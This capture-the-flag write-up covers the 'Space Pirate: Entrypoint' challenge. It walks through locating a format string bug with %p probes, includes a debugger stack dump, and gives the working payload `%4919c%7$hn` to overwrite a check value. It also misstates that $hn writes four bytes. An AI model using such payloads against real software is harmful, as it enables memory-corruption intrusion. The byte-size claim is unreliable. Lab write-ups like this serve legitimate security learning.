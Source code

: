 # Space Pirate:Entrypoint

### Challenge: PWN

### Tools: Ghidra, Pwndbg

### Vulnerability: Format String

This challenge is in the form of a format string  vulnerability. Since I had never used one I followed these links for a very good run down on a format string attack.

https://kevinalmansa.github.io/application%20security/Format-Strings

https://infosecwriteups.com/exploiting-format-string-vulnerability-97e3d588da1b

Below is the main function where our vulnerability sits. The check_pass function has no actual vulnerability.




We can see that local 48 = 0xdeadbeef but if local_48 = 0xdead1337 then it will open_door which is the function that prints our flag. So our goal is to change the value of 0xdeadbeef to 0xdead1337.
Now the way I actually figured out there was a format string vulnerability was by putting in different % commands to see if anything happened and luckily I found that %p was printing addresses. %s and %n will cause a segmentation fault.




By inputting a couple of %p we can see that the address 0xdeadbeef is at offset 6 and input data is put into offset 7. Anything after becomes arbitrary.

{$rax   : 0x0               
$rbx   : 0x0               
$rcx   : 0x007ffff7af2031  →  0x5777fffff0003d48 ("H="?)
$rdx   : 0x1f              
$rsp   : 0x007fffffffdce0  →  0x00000000deadbeef
$rbp   : 0x007fffffffdd20  →  0x00555555400e20  →  <__libc_csu_init+0> push r15
$rsi   : 0x007fffffffdcf0  →  "%p %p %p %p %p %p %p %p %p %p\n"
$rdi   : 0x00555555402658  →  "\nYour card is: "
$rip   : 0x00555555400d84  →  <main+142> call 0x5555554008a0 <printf@plt>
$r8    : 0x47              
$r9    : 0x0               
$r10   : 0x007ffff7b80bc0  →  0x0002000200020002
$r11   : 0x246             
$r12   : 0x00555555400940  →  <_start+0> xor ebp, ebp
$r13   : 0x007fffffffde00  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [zero CARRY PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
─────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x007fffffffdce0│+0x0000: 0x00000000deadbeef     ← $rsp
0x007fffffffdce8│+0x0008: 0x007fffffffdce0  →  0x00000000deadbeef
0x007fffffffdcf0│+0x0010: "%p %p %p %p %p %p %p %p %p %p\n"      ← $rsi
0x007fffffffdcf8│+0x0018: " %p %p %p %p %p %p %p\n"
0x007fffffffdd00│+0x0020: "p %p %p %p %p\n"
0x007fffffffdd08│+0x0028: 0x000a7025207025 ("%p %p\n"?)
0x007fffffffdd10│+0x0030: 0x007fffffffde00  →  0x0000000000000001
0x007fffffffdd18│+0x0038: 0x10674ff2d0c4b300
───────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x555555400d73 <main+125>       call   0x5555554008c0 <read@plt>
   0x555555400d78 <main+130>       lea    rdi, [rip+0x18d9]        # 0x555555402658
   0x555555400d7f <main+137>       mov    eax, 0x0
 → 0x555555400d84 <main+142>       call   0x5555554008a0 <printf@plt>
   ↳  0x5555554008a0 <printf@plt+0>   jmp    QWORD PTR [rip+0x2026ea]        # 0x555555602f90 <printf@got.plt>
      0x5555554008a6 <printf@plt+6>   push   0x4
      0x5555554008ab <printf@plt+11>  jmp    0x555555400850
      0x5555554008b0 <alarm@plt+0>    jmp    QWORD PTR [rip+0x2026e2]        # 0x555555602f98 <alarm@got.plt>
      0x5555554008b6 <alarm@plt+6>    push   0x5
      0x5555554008bb <alarm@plt+11>   jmp    0x555555400850
───────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
printf@plt (
   $rdi = 0x00555555402658 → "\nYour card is: ",
   $rsi = 0x007fffffffdcf0 → "%p %p %p %p %p %p %p %p %p %p\n",
   $rdx = 0x0000000000001f
)
───────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "sp_entrypoint", stopped 0x555555400d84 in main (), reason: BREAKPOINT
─────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x555555400d84 → main()
──────────────────────────────────────────────────────────────────────────────────────────────────────────
Python Exception <class 'AttributeError'> partially initialized module 'pwndbg' has no attribute 'commands' (most likely due to a circular import): 
gef➤  x50x $rsp
Undefined command: "x50x".  Try "help".
gef➤  x/50x $rsp
0x7fffffffdce0: 0xdeadbeef      0x00000000      0xffffdce0      0x00007fff
0x7fffffffdcf0: 0x25207025      0x70252070      0x20702520      0x25207025
0x7fffffffdd00: 0x70252070      0x20702520      0x25207025      0x00000a70
0x7fffffffdd10: 0xffffde00      0x00007fff      0xd0c4b300      0x10674ff2
0x7fffffffdd20: 0x55400e20      0x00005555      0xf7a03c87      0x00007fff
0x7fffffffdd30: 0x00000001      0x00000000      0xffffde08      0x00007fff
0x7fffffffdd40: 0x00008000      0x00000001      0x55400cf6      0x00005555
0x7fffffffdd50: 0x00000000      0x00000000      0xd40bc83c      0x088c5f78
0x7fffffffdd60: 0x55400940      0x00005555      0xffffde00      0x00007fff
0x7fffffffdd70: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdd80: 0x722bc83c      0x5dd90a07      0xb035c83c      0x5dd91ab8
0x7fffffffdd90: 0x00000000      0x00007fff      0x00000000      0x00000000
0x7fffffffdda0: 0x00000000      0x00000000
gef➤  } 
 

So now that we know where we need to point the format string attack we can set up the command. Also we only need to change the last 2 bytes for the attack

Command = `%4919c%7$hn`	
	- 1337=4919(last 4 of dead1337 from hex) 
  - c= prints character
  - %7=the offset we are placing the $hn 
  - $hn=writes 4 bytes to the target pointer.






With that we have our flag!

When I first started out I think I was diving too deep and trying scripts like `“dead1337””\x20\xdf\xff\xff””%7$n”` to print the flag but eventually realized this challenge was simpler than that.

